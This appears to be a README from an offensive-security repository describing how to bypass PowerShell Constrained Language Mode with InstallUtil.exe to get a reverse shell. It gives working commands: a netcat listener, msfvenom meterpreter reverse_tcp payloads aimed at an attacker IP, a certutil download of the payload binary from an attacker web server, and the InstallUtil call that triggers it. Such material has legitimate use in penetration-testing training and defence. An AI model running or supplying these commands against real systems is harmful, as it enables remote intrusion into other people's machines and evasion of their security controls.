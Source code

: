 # Reverse Shell CLM Bypass with Powershell code runner
A .NET installation utility used for registering .NET assemblies can be used and reference the RunInstaller component to trigger the malicious payload that is not found in the 'main' call. 

Compile the csharp binary in Visual Studio and transfer to victim host with certutil. 

## Requirements: 
The following powershell code runner is required and hosted on kali webserver (python http.server)
Reference: CodeRunners/powershellCodeRunner-32.ps1
Reference: CodeRunners/powershellCodeRunner-64.ps1

```bash
# setup netcat listener
┌──(kali㉿kali)-[~]
└─$ nc -nvlp 8080

# payload for the powershellCodeRunner 32-bit
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.45.165 LPORT=8080 EXITFUNC=thread -f ps1
# payload for the powershellCodeRunner 64-bit
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.45.165 LPORT=8080 EXITFUNC=thread -f ps1

# Download file via certutil -urlcache -f http://ip/CLMBypass.exe clmbypass.exe
PS > C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U clmbypass.exe
```